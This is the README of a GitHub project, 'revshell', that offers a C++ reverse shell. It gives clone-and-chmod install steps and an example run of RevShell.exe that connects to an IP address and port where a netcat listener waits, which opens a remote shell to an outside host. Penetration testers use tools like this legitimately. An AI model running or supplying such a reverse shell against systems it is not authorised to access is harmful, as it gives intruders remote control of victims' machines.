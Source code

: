 # revshell
rev shell in c++

[![forthebadge](https://forthebadge.com/images/badges/made-with-c-plus-plus.svg)](https://forthebadge.com)

# Installation:
- git clone https://github.com/code-developers/revshell
- cd revshell
- sudo chmod +x *

# Examples

Before starting the executable make sure you have started a listener on your favorite (Linux) distribution. I use netcat on BackBox.

- Open a session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345

```

- made by the team: code developers
